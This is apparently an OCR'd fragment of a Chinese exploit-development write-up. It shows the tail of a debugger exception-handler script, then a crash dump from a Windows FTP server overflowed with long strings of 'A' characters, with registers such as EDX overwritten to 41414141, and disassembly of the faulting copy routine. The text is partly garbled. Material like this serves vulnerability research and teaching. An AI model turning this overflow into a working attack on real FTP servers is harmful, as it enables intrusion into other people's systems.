 ```
        return DBG_EXCEPTION_NOT_HANDLED
        #if DBG_EXCEPTION_NOT_HANDLED then seh->veh->kill

```

查看效果

```
[*] attaching to program with pid 476
mov [edi],edx
msvcrt.dll:77c12131 mov [edi],edx from thread 1708 caused access violati
when attempting to write to 0x00130000

CONTEXT DUMP
  EIP: 77c12131 mov [edi],edx
  EAX: 7efefefe (2130640638) -> N/A
  EBX: 00000000 (         0) -> N/A
  ECX: 0012fe0c (   1244684) -> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (stack)
  EDX: 41414141 (1094795585) -> N/A
  EDI: 0012ffff (   1245183) -> Actx L| 4d[IY-2(0pSsHd,,ZZ (stack)
  ESI: 030e88b8 (  51284152) -> C:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (heap)
  EBP: 0012dbf8 (   1235960) -> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (stack)
  ESP: 0012d7e8 (   1234920) -> RAhfC:\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAA (stack)
  +00: 00000000 (         0) -> N/A
  +04: 00410952 (   4262226) -> uEuuPVr;uEu^^EuPuuV;Et&9_ u!hQuuVujW3;t}
'+=HiujW3Et1u}VW!VhQjVuS)VsE$Eu (守望迷你ftp服务器.exe.data)
  +08: 0012d9f8 (   1235448) -> AAAC:\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (stack)
  +0c: 0012d804 (   1234948) -> C:\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA (stack)
  +10: 00de6668 (  14575208) -> fgh_uasortTH_GREGOR`TTbR=CRG9^ATRRhfaOPg
TH_GREGOR`TTbRWCR (heap)
  +14: 00000000 (         0) -> N/A

disasm around:
        0x77c1211b jz 0x77c12136
        0x77c1211d mov dl,[ecx]
        0x77c1211f inc ecx
        0x77c12120 test dl,dl
        0x77c12122 jz 0x77c12188
        0x77c12124 mov [edi],dl
        0x77c12126 inc edi
        0x77c12127 test ecx,0x3
        0x77c1212d jnz 0x77c1211d
        0x77c1212f jmp 0x77c12136
        0x77c12131 mov [edi],edx
        0x77c12133 add edi,0x4
        0x77c12136 mov edx,0x7efefeff
```